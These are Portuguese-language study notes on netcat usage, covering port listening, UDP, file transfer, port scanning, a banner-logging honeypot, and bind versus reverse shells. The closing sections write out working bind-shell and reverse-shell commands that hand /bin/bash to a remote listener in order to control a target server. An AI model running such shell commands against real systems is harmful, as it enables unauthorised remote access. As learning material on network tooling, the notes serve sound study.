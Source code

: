 vem instalado na maioria dos linux(nc, netcat, nc.traditional)

Exemplo de uso:
	nc www.businesscorp.com.br 21  -- Conecta no serviço rodando na porta 21 do servidor indiciado.

Abrir uma porta especifica no navegador
	nc -vlp 3333
Ver portas tcp abertas no sistema
	netstat -nlpt
Criar um arquivo de texto com nano e carregar na porta 80
	nano banner 
	nc -vnlp < banner    - Ira mostrar a mensagem salva no banner na pagina web ou pelo outro terminal.

## UDP e File Transfer

Abrir porta UDP
	nc -vnlup 53

Verificar portas UDP abertas
	netstat -nlpu

conectar numa porta udp aberta
	nc -vnu 192.168.124.199 53

Abrindo porta e recebendo arquivos
	nc -vnlp 5050 > ncat.txt    -- tudo oque receber será enviado ao arquivo de testo 'ncat.txt'

Enviando arquivos com o nc
	nc -v 192.168.124.199 5050 < teste.txt   -- enviando o arquivo 'test.txt' para o ip e porta 5050.
	Obs: O problema é não controlar o envio e saber se o envio foi correto por ser udp, porem pode ser verificado o tamanho do arquivo enviado e recebido, caso sejam iguais então o envio foi certo.

## Port Scanning

Ler porta
	nc -vnz 192.168.1.5 5050

Ler um intervalo de portas
	nc -vnz 192.168.1.5 50-100


## Honeypot

Criar um banner simulando o acesso a algum serviço, exemplo o FTP com o texto "220 ProFTPD 1.3.4a Server (ubuntu)" e direcionar esse banner a porta aberta
	nc -vnlp 21 < banner.txt 1>> banner.log 2>> banner.log;echo $(date) >> banner.log      -- ele ira direcionar o arquivo banner para a porta aberta e qualquer interação feita nessa porta ira direcionar para o arquivo "banner.log", o 1>> envia os acertos e o 2>> envia os erros. A ultima linha serve para enviar a data e hora do acesso.

Uma forma de uso é criar uma porta falsa(honeypot) e quando algum IP conectar nessa porta criar uma regra de firewall para bloquear esse IP pois se a porta é falsa não deveria ter conexões e significa que esse IP está fazendo PortScanning.


## BIND SHELL X REVERSE SHELL

![[Pasted image 20240823155921.png]]
	Tem que abrir uma porta no servidor
	Você conecta na porta aberta do servidor alvo e controla o sistema após a conexão

![[Pasted image 20240823160105.png]]
	Não abre nenhuma porta no servidor alvo
	Você abre uma porta na sua maquina e faz o servidor alvo se conectar a sua maquina e envia a shell
	

### Bind Shell com NetCat

No servidor eu rodo o comando 
	nc -vnlp 5050 -e /bin/bash     -- O "-e" passa um programa e nesse caso é o bash do servidor, quem conectar na porta 5050 tera acesso ao terminal do outro servidor e podera realizar qualquer comando linux no terminal.
Para conectar
	nc -vn 192.168.124.199 5050    -- Com o IP do servidor e a porta 5050 eu tenho acesso ao bash desse servidor.

### Reverse Shell com NetCat

Na maquina do atacante abre e fica ouvindo a porta 5050
	nc -vnlp 5050

Na maquina alvo ou servidor alvo eu faço a conexão na porta 5050 e envio o bash do sistema ou cmd(windows).
	nc -vn 192.168.124.199 5050 -e /bin/bash

Dessa forma tenho acesso ao servidor alvo sem abrir nenhuma porta do mesmo.

